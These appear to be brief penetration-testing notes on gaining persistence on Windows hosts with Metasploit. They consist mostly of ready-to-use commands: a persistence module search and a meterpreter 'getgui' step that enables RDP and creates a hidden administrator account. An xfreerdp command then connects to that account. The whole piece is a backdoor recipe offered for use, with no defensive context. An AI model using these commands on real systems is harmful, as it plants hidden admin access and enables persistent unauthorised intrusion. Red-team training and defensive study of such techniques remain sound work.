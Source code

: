 
Services
=

### msfmodules

`search platform:windows persistence` - use the service module


Backdoor User (via RDP)
=
get a 64bit meterpreter session - requires stable shell
admin privs required

in meterpreter:
1. `run getgui -e -u username -p password` - checks if rdp is enabled, if not, enables, and create new user, hides user from windows login screen, add user to remote desktop users group and administrators group
2. `xfreerdp /u:username /p:password /v:targetip` - connect to pc via rdp